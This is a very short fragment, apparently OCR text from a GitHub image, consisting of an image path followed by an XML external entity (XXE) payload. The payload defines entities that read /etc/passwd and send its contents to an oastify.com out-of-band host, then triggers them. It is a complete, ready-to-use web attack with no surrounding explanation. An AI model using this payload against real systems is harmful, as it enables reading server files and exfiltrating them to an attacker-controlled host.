 <!ENTITY % p1 SYSTEM "file:///etc/passwd">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://84afje4zwj9h2aam2n55unvbk2qtej28.oastify.com/BLAH?%p1;'>">
%p2;
